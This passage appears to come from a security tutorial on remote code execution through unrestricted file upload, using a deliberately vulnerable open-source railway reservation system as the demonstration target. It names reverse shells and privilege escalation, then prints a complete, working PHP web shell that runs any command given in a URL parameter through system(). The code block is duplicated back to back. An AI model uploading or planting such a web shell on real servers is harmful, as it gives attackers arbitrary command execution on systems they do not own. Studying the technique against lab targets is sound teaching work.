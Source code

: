 ### Usage Methods:

1. **Web-Based Interface:**
    - Directly run commands using a web-based control panel.
2. **Reverse Shell:**
    - Establish a direct connection back to the attacker's system for real-time control.

### Potential Impact:

- **Privilege Escalation:**
    
    Attackers may gain root access or higher privileges to control the system further.
    
- **Network Exploitation:**
    
    Compromise of other connected systems or deeper penetration into the network.
    

We will demonstrate achieving RCE via unrestricted file upload within an [open-source railway management system](https://github.com/CYB84/CVE_Writeup/tree/main/Online%20Railway%20Reservation%20System) that has this vulnerability [built into it](https://github.com/CYB84/CVE_Writeup/blob/main/Online%20Railway%20Reservation%20System/RCE%20via%20File%20Upload.md). 

We can use the following php file as our web shell to upload to our vulnerable application:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html><html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
